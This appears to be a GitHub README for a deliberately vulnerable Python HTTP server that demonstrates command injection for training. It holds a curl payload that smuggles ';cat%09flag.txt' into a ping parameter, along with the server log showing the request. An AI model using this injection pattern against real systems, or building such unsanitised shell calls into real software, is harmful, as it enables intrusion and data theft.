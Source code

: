# rce-endpoint
Simple python http server to demonstrate RCE vulnerabilities.
![Alt text](./rce.png?raw=true "Title")
### Run
```
lomaha@rce-endpoint % python3 rce-endpoint.py -a=127.0.0.1 -p=80 -u=/ping -c='ping -c 1'
```
### Use
#### Client side:
```
lomaha@rce-endpoint % curl -G "http://127.0.0.1:80/ping?ip=8.8.8.8;cat%09flag.txt" 
b'PING 8.8.8.8 (8.8.8.8): 56 data bytes\n64 bytes from 8.8.8.8: icmp_seq=0 ttl=111 time=7.668 ms\n\n--- 8.8.8.8 ping statistics ---\n1 packets transmitted, 1 packets received, 0.0% packet loss\nround-trip min/avg/max/stddev = 7.668/7.668/7.668/0.000 ms\nLOMAHA{cwhf85wLOMAHA4375023}'
```
#### Server side:
```
Server started http://127.0.0.1:80
127.0.0.1 - - [25/Dec/2021 20:49:42] "GET /ping?ip=8.8.8.8;cat%09flag.txt HTTP/1.1" 200 -
Path: '/ping'
Query params: 'ip'
Quer value: '8.8.8.8;cat	flag.txt'

```